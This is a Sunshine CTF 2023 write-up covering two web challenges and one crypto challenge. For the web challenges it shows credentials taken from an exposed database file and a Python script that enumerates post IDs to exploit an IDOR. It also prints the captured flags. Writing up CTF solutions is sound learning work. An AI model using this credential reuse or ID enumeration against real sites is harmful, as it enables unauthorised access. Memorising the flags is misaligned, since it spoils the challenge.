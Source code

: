 # Sunshine CTF 2023

Sunshine CTF Writeup:

## WEB:
### Hotdog Stand:
In the not-so-distant future, robots have taken over the fast-food industry. Infiltrate the robot hotdog stand to find out whatjobs still remain.
https://hotdog.web.2023.sunshinectf.games 

1. Visit URL
2. See if robots.txt is available
	robots.txt contains:
		User-agent: * Disallow: /configs/ Disallow: /backups/ Disallow: /hotdog-database/
3. Visit /hotdog-database/
	prompts a db download
4. Use DB Browser to open the db file
5. Database has table "credentials"
	right-click the table and browse table
	admin login credentials are listed
6. Use login creds to login to the site
	flag is displayed:
				Welcome to the hotdog stand.
		Please take your authentication token: sun{5l1c3d_p1cKl35_4nd_0N10N2}

### BeepBoop Blog:
A few robots got together and started a blog! It's full of posts that make absolutely no sense, but a little birdie told me that one of them left a secret in their drafts. Can you find it?
https://beepboop.web.2023.sunshinectf.games 

1. Visit URL
2. Open Burp and enable proxy
3. Click "View All..." on a post so that the burp proxy catches it
4. Look at the request and the reply
	Notice that there is a hidden attribute on the reply
5. Copy all of the request header from burp
6. Write a script that will run through a loop of the posts (there are 1024 total)
	python has a requests library that will essentially act like curl

```python
		import requests

		requests.packages.urllib3.disable_warnings()

		base_url = "https://beepboop.web.2023.sunshinectf.games/post/"

		for post_id in range(1024):
    		    url = f"{base_url}{post_id}/"
    	  	    headers = {
        		"Host": "beepboop.web.2023.sunshinectf.games",
        		"User-Agent": "Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0",
        		"Accept": "*/*",
        		"Accept-Language": "en-US,en;q=0.5",
        		"Accept-Encoding": "gzip, deflate",
        		"Referer": "https://beepboop.web.2023.sunshinectf.games/",
        		"Sec-Fetch-Dest": "empty",
        		"Sec-Fetch-Mode": "cors",
        		"Sec-Fetch-Site": "same-origin",
        		"Te": "trailers",
    		}

    		response = requests.get(url, headers=headers, verify=False)

    		if response.status_code == 200:
        		try:
            		    json_data = response.json()
            		    hidden = json_data.get("hidden", False)
            		    print(f"Post {post_id}: hidden: {hidden}")
        		except ValueError:
            		    print(f"Post {post_id}: JSON response not found")
    		else:
        	    print(f"Post {post_id}: Error - Status Code {response.status_code}")
```
\    
7. Watch the output to see "Post 608: hidden: True"
8. Use burp to make a request to /post/608
9. Flag will be displayed in the response:
	HTTP/2 200 OK
	Server: nginx/1.18.0 (Ubuntu)
	Date: Sun, 08 Oct 2023 19:35:29 GMT
	Content-Type: application/json
	Content-Length: 66

	{
	"hidden":true,
	"post":"sun{wh00ps_4ll_IDOR}",
	"user":"Robot #000"
	}
	
	
## CRYPTO:
### BeepBoop Cryptography:
Help! My IOT device has gone sentient!

All I wanted to know was the meaning of 42!

It's also waving its arms up and down, and I...

oh no! It's free!

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Automated Challenge Instructions

Detected failure in challenge upload. Original author terminated. Please see attached file BeepBoop for your flag... human.

1. Open the file given
	Full of 'Beep Boop'
	Beep = 0
	Boop = 1
2. Convert to binary
	Open file in vim
	:%s/beep/0/g - converts all beeps to 0s
	:%s/boop/1/g - converts all boops to 1s
	:%$/ //g - takes away all spaces
	:%s/\(........\)/\1 /g - adds a space after every 8th character
3. Upload file as input in to CyberChef
4. Use "from binary" recipe
	Notice the output looks similar to a flag:
		fha{rkgrezvangr-rkgrezvangr-rkgrezvangr}
5. Use ROT13 recipe
	Get flag!!
		sun{exterminate-exterminate-exterminate}
